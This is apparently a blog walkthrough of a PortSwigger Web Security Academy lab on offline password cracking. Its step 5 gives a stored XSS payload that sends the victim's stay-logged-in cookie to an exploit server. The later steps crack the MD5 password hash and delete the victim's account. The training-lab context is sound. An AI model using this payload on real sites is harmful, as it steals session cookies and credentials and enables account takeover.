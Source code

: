 ```yaml
---
layout: post
title:  "PortSwigger - Authentication - Lab 10"
date:   2024-06-05 18:20
image:  /images/portswigger/WebSecurityAcademy.png
tags:   [authentication]
categories: [PortSwigger]
---
```


# Lab 10 - Offline password cracking
><b>Lab Objective:</b>
<br/><br/>
This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.
<br/>
<br/>
`Your credentials: wiener:peter`<br/>
`Victim's username: carlos`
<br/>
<br/>
<b>Reference:</b>
<br/>
<a href="https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking">Port Swigger - Lab 10</a>
<br/>

### Solution
<hr/>

#### 1. With Burp running, use your own account to investigate the `Stay logged in` functionality. Notice that the `stay-logged-in cookie` is Base64 encoded.

#### 2. In the `Proxy > HTTP history` tab, go to the Response to your login request and highlight the `stay-logged-in` cookie, to see that it is constructed as follows: `username+':'+md5HashOfPassword`

#### 3. You now need to steal the victim user's cookie. Observe that the comment functionality is vulnerable to XSS

#### 4. Go to the exploit server and make a note of the URL.

#### 5. Go to one of the blogs and post a comment containing the following <a href="https://portswigger.net/web-security/cross-site-scripting/stored">stored XSS payload</a>, remembering to enter your own exploit server ID:
`<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>`

#### 6. On the exploit server, open the access log. There should be a `GET` request from the victim containing their `stay-logged-in` cookie

#### 7. Decode the cookie in Burp Decoder. The result will be: `carlos:26323c16d5f4dabff3bb136f2460a943`

#### 8. Copy the hash and paste it into a search engine. This will reveal that the password is `onceuponatime`

#### 9. Log in to the victim's account, go to the `My account` page, and delete their account to solve the lab.
<hr/>